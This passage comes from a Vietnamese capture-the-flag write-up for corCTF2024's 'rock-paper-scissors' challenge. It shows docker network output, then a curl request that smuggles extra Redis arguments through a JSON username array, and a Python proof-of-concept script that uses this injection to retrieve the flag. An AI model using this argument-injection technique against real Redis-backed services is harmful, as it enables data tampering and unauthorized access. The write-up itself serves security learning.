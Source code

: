 ```
            "IPPrefixLen": 0,
            "IPv6Gateway": "",
            "MacAddress": "",
            "Networks": {
                "rock-paper-scissors_default": {
                    "IPAMConfig": null,
                    "Links": null,
                    "Aliases": [
                        "rock-paper-scissors-redis-1",
                        "redis"
                    ],
                    "MacAddress": "02:42:ac:12:00:02",
                    "DriverOpts": null,
                    "NetworkID": "26f514ba6e1d52d8bf91331a16cb438b90ce1ae95be9c7cc850bba1b087c345f",
                    "EndpointID": "0fcc5c9e0d7da7a5987376a377439819d5684dc0248d3eb46d5c64b345af1801",
                    "Gateway": "172.18.0.1",
                    "IPAddress": "172.18.0.2",
                    "IPPrefixLen": 16,
                    "IPv6Gateway": "",
                    "GlobalIPv6Address": "",
                    "GlobalIPv6PrefixLen": 0,
                    "DNSNames": [
                        "rock-paper-scissors-redis-1",
                        "redis",
                        "0828e098ad05"
                    ]
                }
            }
        }
    }
]
```

- Ta sẽ tạo username với api `/new` để xem những gì đã diễn ra nếu ta truyền nhiều đối số với redis.


```
l3mnt2010@ASUSEXPERTBOOK:~$ curl -X POST -H "Content-Type: application/json" -d '{"username": ["lam","\n", "scoreboard", 1337, "gaga"]}' http://localhost:8080/new
OK
```

poc: 

```
l3mnt2010@ASUSEXPERTBOOK:~/corCTF2024/rock-paper-scissors$ python3 exp.py
corctf{test_flag}
l3mnt2010@ASUSEXPERTBOOK:~/corCTF2024/rock-paper-scissors$ cat exp.py
import requests

HOST = 'http://localhost:8080'
sess = requests.Session()

exfil_username = 'mixi'
r = sess.post(HOST + '/new', json={'username': ['lam', 1337, exfil_username]})
r = sess.post(HOST + '/play', json={'position': "a"})
r = sess.post(HOST + '/new', json={'username': exfil_username})
flag = sess.get(HOST + '/flag').text
print(flag)
l3mnt2010@ASUSEXPERTBOOK:~/corCTF2024/rock-paper-scissors$
```
